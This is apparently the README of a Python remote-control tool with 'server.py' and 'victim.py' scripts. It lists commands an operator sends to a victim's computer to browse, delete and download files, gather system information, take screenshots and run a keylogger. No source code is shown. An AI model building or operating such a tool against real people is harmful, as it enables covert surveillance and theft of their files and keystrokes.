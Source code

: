 # Usage

→ Start both server.py and victim.py scripts on DIFFERENT computers

↳ send command through the server (type help to get some)

↳ the client (or victim) will execute the commands

# Commands

cd --goto to a specified directory

↳ usage : 

    cd folder
    
    cd ..

mkdir --create a new directory with the given name

↳ usage : 

    mkdir new_folder


ls --browse all files and folders in the current path

↳ usage :

    ls


remove --remove the file with the given name

↳ usage :

    remove file


removedir --remove the folder with the given name

↳ usage :

    removedir folder


print --write the specified text in the client's console

↳ usage :

    print hello


getfile --download a file or a zipped folder with the given name

↳ usage :

    getfile myfile.txt
    
    getfile myfolder.zip
    

zip --zip a folder or a file with the given name

↳ usage :

    zip folder
    
    zip text.txt
    

move --move the desired file or folder to the desired location

↳ usage : 

    move thing.txt folder
    
    move something.odt folder/folder2
    

getinfo --get all informations and specifications about the client's pc

↳ usage :

    getinfo

    
screenshot --take a screenshot of the client's pc and save it in the server (at the server.py location)

↳ usage :

    screenshot
    

keylogger --keylogger class

↳ usage :
    
    keylogger on

    keylogger off

    keylogger get


exit --exit the connection

↳ usage :

    exit


help --get help

↳ usage :

    help
